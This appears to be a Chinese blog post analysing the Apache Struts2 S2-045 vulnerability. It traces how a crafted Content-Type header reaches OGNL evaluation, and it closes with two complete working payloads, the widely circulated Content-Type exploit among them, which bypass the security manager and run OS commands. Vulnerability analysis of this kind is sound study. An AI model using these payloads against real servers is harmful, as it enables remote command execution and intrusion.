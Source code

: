 ```yaml
---
layout: post
title: "[web] s2-045漏洞解析"
categories: "WebSecurity"
---
```


#### 0x00 前言####

漏洞已经出来很长时间了，但是一直放着没有分析过，最近看到freebuf上的文章，所以也手痒马上来分析一波(主要是为了摸清触发的流程，以及payload如何构造的)，从以下2个思路进行分析

- 漏洞触发流程
- payload如何工作

调试使用的war包是地址为： https://archive.apache.org/dist/struts/2.5.1/struts-2.5.1-apps.zip (版本为struts2-2.5.1)

#### 0x01 漏洞触发流程 ####

我们先从入口出发，用户发起的请求会通过`WEB-INF/web.xml`中定义的过滤器

![s2-045]({{ '/images/201803/s2-045_1_1.png' | prepend: site.baseurl }})

`org.apache.struts2.dispatcher.filter.StrutsPrepareFilter`就是我们的入口，在`dofileter`中请求会进入`this.prepare.wrapRequest`(org.apache.struts2.dispatcher.PrepareOperations)

![s2-045]({{ '/images/201803/s2-045_1_2.png' | prepend: site.baseurl }})

接着请求会通过`this.dispatcher.wrapRequest`(org.apache.struts2.dispatcher.Dispatcher)开始分发我们的请求

![s2-045]({{ '/images/201803/s2-045_1_3.png' | prepend: site.baseurl }})

在这里会先获取用户的`content_type`(这是我们所能控制的),接着判断我们的`content-type`中是否包含"multipart/form-data",包含就会进入`jakarta`处理流程，接着会进入`MultiPartRequestWrapper`

![s2-045]({{ '/images/201803/s2-045_1_4.png' | prepend: site.baseurl }})

首先会进入`this.multi.parse`(org.apache.struts2.dispatcher.multipart.JakartaMultiPartRequest)解析我们的请求

![s2-045]({{ '/images/201803/s2-045_1_5.png' | prepend: site.baseurl }})

在该函数中会产生异常，通过`buildErrorMessage`进行错误信息解析

![s2-045]({{ '/images/201803/s2-045_1_6.png' | prepend: site.baseurl }})

该函数会返回`LocalizedTextUtil.findText`(com.opensymphony.xwork2.util.LocalizedTextUtil)(有些文章跟踪到这里就结束了)，此时函数的参数中`e.getMessage()`其中就包含我们的异常的Content-Type也就是我们的payload

![s2-045]({{ '/images/201803/s2-045_1_7.png' | prepend: site.baseurl }})

会调用原始的`findText`,参数`defaultMessage`包含着我们的`payload`

![s2-045]({{ '/images/201803/s2-045_1_8.png' | prepend: site.baseurl }})

调用`getDefaultMessage`函数

![s2-045]({{ '/images/201803/s2-045_1_9.png' | prepend: site.baseurl }})

最终我们来到了漏洞函数`TextParseUtil.translateVariables`,通过`buildMessageFormat`调用

![s2-045]({{ '/images/201803/s2-045_1_10.png' | prepend: site.baseurl }})

通过`parse.evaluate`进行`ognl`表达式的识别和执行

![s2-045]({{ '/images/201803/s2-045_1_11.png' | prepend: site.baseurl }})

最后再跟入，会发现调用哪个`evaluator.evaluate(var)`，这个就是执行ognl表达式的关键，我们的payload被正确识别出来在var变量中

![s2-045]({{ '/images/201803/s2-045_1_12.png' | prepend: site.baseurl }})

到这里我们的`payload`经历各种函数的调用来到了这里，最终触发漏洞达到命令执行

#### 0x02 payload是如何构造的 ####

虽然知道ognl表达式是在哪里执行的，但是没有接触过所以看到poc也不明白都是些什么，还好通过ide可以直接使用该接口，就尝试了一些语句的执行

![s2-045]({{ '/images/201803/s2-045_2_1.png' | prepend: site.baseurl }})

还可以使用括号(表示一个语句)和.(拼接)来执行多个语句

![s2-045]({{ '/images/201803/s2-045_2_2.png' | prepend: site.baseurl }})

测试到这里，就想看看能弹计算器么...

![s2-045]({{ '/images/201803/s2-045_2_3.png' | prepend: site.baseurl }})

结果悲催的发现失败了，后来才知道这个`SecurityMemberAccess`是struts2的安全管理器，就是防止执行系统命令，对非法字符进行了黑名单校验，通过freebuf的[文章](http://www.freebuf.com/vuls/165488.html)(有详细的poc分析，以及绕过的简单分析)了解到细节，有兴趣的可以去看看

最终就是通过`_memberAccess`利用`DefaultMemberAccess`对象覆盖`SecurityMemberAccess`对象

最后自己整理的直接执行的ognl表达式的payload(这个是在IDE里面直接执行的)

	(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='\"calc\"').(#cmds={'cmd.exe','/c',#cmd}).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start())

最终成熟的`payload`为(也是网上流传最广的一个)

	Content-Type:"%{(#xxx='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='"pwd"').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=newjava.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())}"

#### 总结： ####

通过IDE很方便的动态调试struts2，清晰的跟踪整个漏洞的流程，了解了用户请求的基本流程以及命令为何执行，同时也了解了基本的ognl表达式，清楚的了解一些poc构造(不会看的很懵)。

ps:也是第一次分析，写的有点流水帐 :)

参考：

http://www.freebuf.com/vuls/165488.html
